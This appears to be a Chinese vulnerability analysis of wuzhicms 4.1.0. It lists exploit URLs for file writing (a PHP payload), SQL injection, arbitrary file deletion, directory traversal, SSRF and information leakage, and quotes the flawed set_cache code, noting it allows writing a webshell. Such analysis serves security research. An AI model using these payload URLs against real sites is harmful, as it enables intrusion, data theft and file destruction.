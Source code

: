 也就是说，wuzhicms的coreframe下的文件路由访问形式均为：`http://ip:port/wuzhicms/index.php?m=xx&f=xx&v=xx&_su=wuzhicms`

## 4.1.0版本漏洞分析
|漏洞名称|访问路径|前台/后台|
|:---:|:---:|:---:|
|文件写入漏洞|`/wuzhicms/index.php?m=attachment&f=index&v=set&_su=wuzhicms&submit=1&setting=<%3fphp+phpinfo()%3b%3f>`|后台|
|sql注入漏洞|`/wuzhicms/index.php?m=core&f=copyfrom&v=listing&_su=wuzhicms&_menuid=&_submenuid=&keywords=1'`|后台|
|sql注入漏洞|`/wuzhicms/index.php?m=coupon&f=card&v=detail_listing&_su=wuzhicms&groupname=1'`|后台|
|sql注入漏洞|`/wuzhicms/index.php?m=member&f=group&_su=wuzhicms&v=del&groupid=1'`|后台|
|sql注入漏洞|`/wuzhicms/index.php?m=order&f=card&v=listing&_su=wuzhicms&type=1&batchid=1'`|后台|
|sql注入漏洞|`/wuzhicms/index.php?m=order&f=goods&v=listing&_su=wuzhicms&keywords=1&keytype=0&cardtype=1'`|后台|
|sql注入漏洞|`/wuzhicms/index.php?m=promote&f=index&v=search&_su=wuzhicms&fieldtype=place&keywords=1' `|后台|
|sql注入漏洞|`/wuzhicms/www/api/sms_check.php?param=1'`|前台|
|任意文件删除漏洞|`/wuzhicms/index.php?m=attachment&f=index&_su=wuzhicms&v=del&url=../z.txt`|后台|
|目录遍历漏洞|`/wuzhicms/index.php?dir=.....///.....///&m=template&f=index&v=listing&_su=wuzhicms`|后台|
|SSRF漏洞|`/wuzhicms/index.php?m=search&f=config&_su=wuzhicms&v=test&sphinxhost=xx&sphinxport=xx`|后台|
|信息泄漏漏洞|`/wuzhicms/index.php?m=core&f=index&v=phpinfo&_su=wuzhicms&_menuid=0`|前台|

### 文件写入漏洞
漏洞定位`coreframe/app/attachment/admin/index.php`的set方法
```php
public function set()
{
    if (isset($GLOBALS['submit'])) {
        set_cache(M, $GLOBALS['setting']); // 调用下方的set_cache方法
        MSG(L('operation_success'), HTTP_REFERER, 3000);
    } ...
}

function set_cache($filename, $data, $dir = '_cache_'){
	static $_dirs;
	if ($dir == '') return FALSE;
	if (!preg_match('/([a-z0-9_]+)/i', $filename)) return FALSE;
	$cache_path = CACHE_ROOT . $dir . '/';
	if (!isset($_dirs[$filename . $dir])) {
		if (!is_dir($cache_path)) {
			mkdir($cache_path, 0777, true);
		}
		$_dirs[$filename . $dir] = 1;
	}

	$filename = $cache_path . $filename . '.' . CACHE_EXT . '.php';
	if (is_array($data)) {
		$data = '<?php' . "\r\n return " . array2string($data) . '?>';
	}
	file_put_contents($filename, $data);
}
```
在架构分析的(3)注意点中提到，`$GLOBALS['xx']`是可传入的。如果传入`submit`的值不为空，就会调用`set_cache()`方法，该方法最终调用`file_put_contents($filename, $data);`，将文件内容写入到缓存文件中。此时`$data`是`$GLOBALS['setting']`的值，该值是可以通过HTTP传入的，即文件内容可控，可以写入一句话木马。但是缓存文件名是不可控的，利用思路就是，找到一个可以包含该缓存文件的地方。
